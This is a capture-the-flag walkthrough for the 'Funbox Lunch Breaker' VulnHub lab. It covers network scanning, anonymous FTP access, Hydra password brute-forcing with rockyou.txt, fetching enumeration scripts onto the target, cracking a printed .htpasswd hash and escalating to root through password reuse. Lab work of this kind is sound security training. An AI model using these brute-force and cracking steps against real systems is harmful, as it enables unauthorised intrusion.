

# **Description**

It's a box for beginners and can be pwned in the lunch break.
This works better with VirtualBox rather than Vmware.

Discovering the Target IP address

┌──(kali㉿kali)-[~/Downloads/vulnhub/FunboxLunchBreaker]
└─$ sudo netdiscover -r 192.168.0.100/24 

## **Active Reconnaissance** 

Running Nmap scan to discover open ports

Three ports are open

PORT   STATE SERVICE
* 21/tcp open  ftp
* 22/tcp open  ssh
* 80/tcp open  http

└─$ `sudo nmap -sV -O -A -T4 192.168.0.179` 

## **FTP Anonymous login**

Since FTP port is open and it allows anonymous login
Login to the FTP server using anonymous as username 

Use get command to download both the .s3cr3t and supers3cr3t files to the local host current working directory.

The .s3cr3t file contains base64 encrypted message

Decrypting the message, we got the plaintext below;

_**If the radiance of a thousand suns / were to burst at once into the sky / that would be like / the splendor of the Mighty One and I am become Death, the shatterer of worlds**_ 

Decrypting the message in supers3cr3t file using this url below.

https://www.dcode.fr/brainfuck-language

We got the plaintext below;

**_Look deep into nature and then you will understand everything better._**

##  **Enumerate the web server**
No vital information was found login anonymously through ftp.
Investigate the web server if any vital info could be found.

Check the robots.txt file which tells search engine crawlers which URLs the crawler can access on your site.
It says dirb, gobuster tools should be disallowed, these are directory bruteforcing tools.

And allow WYSIWYG
**_"what you see is what you get"_**

Inspecting the element, possible username was found.

Possible username (jane) was found on the html comment tag

 webdesign by j.miller [jane@funbox8.ctf]

## **Bruteforce Attack**

Possible username jane, trying to get her password
Using Hydra command which is a password bruteforce tool with rockyou.txt wordlist
The password for jane was found.

Login to the ftp server using jane credentials.

															
There is a backups directory, cd to the backup directory.
There is a key.txt file in backups directory.
Using get command the file was downloaded to the local machine. 

The keys.txt file contains encrpted keys. No useful information on how to use the key for authentication.

There is home directory, cd to home.
Jane can read other directories in /home 
Directories of other users were found.

Create a file for the users.
Use Hydra command to bruteforce for their possible passwords.

$ `hydra -L users.txt -P ~/Downloads/rockyou.txt ftp://192.168.0.179 -t4`

Login to the ftp server using Jim credentials.
List all the directories under Jim  ls -al.
.ssh directory was checked and no useful information was found.

Login to the ftp server using Jules credentials.
cd to the .backups directory

There are wordlist files in the backups directory which might be useful to get the john password.
Use mget command to download all the wordlist files to the local machine.

Go to the current working directory on the local machine and list all the files there.
The wordlist files are hidden, use -al flag with ls command to list the hidden files.

We need to move the hidden files to the current working directory.
Use move command to move the wordlist files to the current working directory.

Reusing Jules' password to ssh into the machine
Check if Jules has sudo privilege.
Jules does not have sudo privilege.

Linpeas.sh and lse.sh were used to read security information and to search for possible paths to escalate privileges on the target machine. 

Linux smart enumeration is a shell script which will show relevant information about the security of the local Linux system, helping to escalate privileges.

https://github.com/diego-treitos/linux-smart-enumeration

wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh

Linux local Privilege Escalation Awesome Script (linPEAS) is a script that search for possible paths to escalate privileges on Linux/Unix hosts.

$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh

Copy  the lse.sh and linpeas.sh files to the target machine.
Start the python http-server. 

Use wget command to download the lse.sh and linpeas.sh files from the local machine to the target machine (funbox8)

wget http://192.168.0.165/lse.sh

wget http://192.168.0.179/linpeas.sh

Change the mode bits of the .sh files using chmod command.

chmod +x *.sh

From the local machine, you can see the two files being sent to the remote machine.

Run the lse.sh to see all the vital information about the security of the machine.
./lse.sh -l 1 -i |more

John has root privilege.

John password hash was found.

Copy the hash

Cat /srv/ftp/wordpress/wp-blog/.htpasswd

john:$apr1$2gymw37l$w604wlgyqqNeOgNac.1qT/

Create a file for the hash; john2hash

Use john the ripper command with the wordlists to find plaintext of the hash
Bad.passwd wordlist worked. zhnmju!!!

Since John's password is known, switch user to John.
There is a todo.list file in todo directory which list all the tasks John intend to perform.
One of the task says change ROOTPASSWD, because it is the same right now. This implies John is still using his account password for root password too.

Switch user to root and enter john's password as the password. We are at the root now.
There is a root.flag file, open the file to read its content using cat command.

